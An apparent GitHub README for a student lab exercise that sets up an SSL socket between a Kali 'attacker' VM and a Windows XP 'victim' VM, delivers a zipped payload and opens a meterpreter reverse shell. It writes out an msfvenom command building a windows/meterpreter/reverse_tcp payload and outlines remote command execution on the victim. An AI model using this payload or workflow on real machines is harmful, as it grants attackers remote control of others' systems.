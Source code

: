 # # MTIC\_Python\_Remote

This is an optional exercise for creating a secure socket communication and then a reverse_shell.

## Team members

- Barrientos Pablo
- Merchán Borja (_Jaretz_)
- Muñoz Laura
- Peñate María

## Scenario and Considerations
### Attacker
This machine will be a Kali Linux VM image.
It will represent our Server, in which we have generated an auto signed certificate and a its self key for a rely connection using SSL socket.

Once we have the files ready, we need to create the 'exploit' to be sent  thru the secure socket.

    msfvemon -p windows/meterpreter/reverse_tcp LHOST=x LPORT=y -f > shellkali.exe
We have to take into account our network settings so you have to set LHOST and LPORT with your needs.

Moreover, a `requirements.txt` file is provided for covering all the library dependencies. 

    pip install -r requirements.txt

Now we have ready our configuration.


### Victim
This machine will be a Windows XP VM image, which will connect to the secure socket and it will receive a .zip with the exploit.
In this machine will have both `client_ssl.py` and `key`

## Process
- The server initializes the connection.
- The client connects to the server.
- The server sends .zip file (exploit)
- The server can execute remotely as many commands as it wants
 	> NOTE: Every command will be typed between ' ' (e.g. 'dir')
 
![pic_00](https://imgur.com/1wmQQ1W.png)

## POC
![pic_01](https://i.imgur.com/cAsGClf.png)

In this figure we can see that the server is initialized and it can execute the commands. 

![pic_02](https://i.imgur.com/jaU1gDr.png)
Now is the victim who receives all the commands and then it executes them.

![pic_03](https://i.imgur.com/kvHVSaF.png)
![pic_04](https://i.imgur.com/ipU36ao.png)
Finally we can see how a meterpreter session is opened.
